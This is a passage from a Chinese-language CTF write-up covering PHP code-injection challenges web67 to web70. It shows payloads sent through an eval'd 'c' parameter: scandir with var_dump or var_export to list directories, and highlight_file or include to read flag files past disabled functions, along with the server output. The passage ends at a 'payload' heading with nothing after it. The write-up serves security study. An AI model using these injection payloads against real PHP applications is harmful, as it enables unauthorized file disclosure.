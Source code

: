 Warning print_r() has been disabled for security reasons in varwwwhtmlindex.php(17)  eval()'d code on line 1
用c=var_dump(scandir('.'));

array(4) { [0]= string(1) . [1]= string(2) .. [2]= string(8) flag.php [3]= string(9) index.php } 
c=highlight_file('flag.php');又是假的。

最终

c=highlight_file('flag.txt');
web68~include读取
打开题目直接

Warning highlight_file() has been disabled for security reasons in varwwwhtmlindex.php on line 19
说明highlight_file函数被禁用了。

c=var_dump(scandir(''));得到

array(21) { [0]= string(1) . [1]= string(2) .. [2]= string(10) .dockerenv [3]= string(3) bin [4]= string(3) dev [5]= string(3) etc [6]= string(8) flag.txt [7]= string(4) home [8]= string(3) lib [9]= string(5) media [10]= string(3) mnt [11]= string(3) opt [12]= string(4) proc [13]= string(4) root [14]= string(3) run [15]= string(4) sbin [16]= string(3) srv [17]= string(3) sys [18]= string(3) tmp [19]= string(3) usr [20]= string(3) var } 
有个flag.txt

readfile、show_source、highlight_file被禁用了.

读取不了，但是我们还可以直接文件包含。

payload

c=include('flag.txt');
web69~var_export打印
同样是

Warning highlight_file() has been disabled for security reasons in varwwwhtmlindex.php on line 19
var_dump 也被禁用

Warning var_dump() has been disabled for security reasons in varwwwhtmlindex.php(17)  eval()'d code on line 1
var_export — 输出或返回一个变量的字符串表示

用c=var_export(scandir(''));得到

array ( 0 = '.', 1 = '..', 2 = '.dockerenv', 3 = 'bin', 4 = 'dev', 5 = 'etc', 6 = 'flag.txt', 7 = 'home', 8 = 'lib', 9 = 'media', 10 = 'mnt', 11 = 'opt', 12 = 'proc', 13 = 'root', 14 = 'run', 15 = 'sbin', 16 = 'srv', 17 = 'sys', 18 = 'tmp', 19 = 'usr', 20 = 'var', )
payload：

c=var_export(scandir(''));`
c=include('flag.txt');
web70~var_export+include
直接：

Warning error_reporting() has been disabled for security reasons in varwwwhtmlindex.php on line 14
​
Warning ini_set() has been disabled for security reasons in varwwwhtmlindex.php on line 15
​
Warning highlight_file() has been disabled for security reasons in varwwwhtmlindex.php on line 21
你要上天吗？
payload
